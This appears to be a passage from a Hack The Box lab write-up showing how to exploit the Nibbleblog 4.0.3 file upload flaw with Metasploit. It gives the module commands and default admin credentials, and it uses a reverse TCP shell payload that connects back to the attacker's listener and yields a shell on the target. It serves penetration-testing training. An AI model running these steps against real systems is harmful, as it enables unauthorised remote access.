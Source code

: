 - As discussed earlier, there is also a `Metasploit` module that works for this box. 
- It is considerably more straightforward, but it is worth practicing both methods to become familiar with as many tools and techniques as possible. 
- Start `Metsaploit` from your attack box by typing `msfconsole`. Once loaded, we can search for the exploit.
```shell-session
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description

-  ----                                       ---------------  ----       -----  -----------

   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload
```
- We'll use exploit 0, so let's type in `use 0` to load the selected exploit.
- Set the `rhosts` option as the target IP address and `lhosts` as the IP address of your `tun0` adapter, which comes with the VPN connection to HackTheBox.
```shell-session
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
```
- Type show options to see what other options need to be set.
```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

  Name       Current Setting  Required  Description
----       ---------------  --------  -----------
  PASSWORD                    yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.129.42.190    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the web application
  USERNAME                    yes       The username to authenticate with
  VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

  Name   Current Setting  Required  Description
----   ---------------  --------  -----------
  LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
  LPORT  4444             yes       The listen port


Exploit target:

  Id  Name
--  ----
  0   Nibbleblog 4.0.3
```
- Now, we need to set the admin username/password to `admin:nibbles`, as well as the `TARGETURI` to `nibbleblog`.
```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
```
- We also need to change the payload type. 
- For our purposes let's use `generic/shell_reverse_tcp`. 
- Once we are ready, then we can run `exploit` and receive a reverse shell.
```shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.190  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  nibbleblog       yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.2      yes       The listen address (an interface may be specified)
   LPORT  4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
[+] Deleted image.php

id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- From here, we can follow the same privilege escalation path.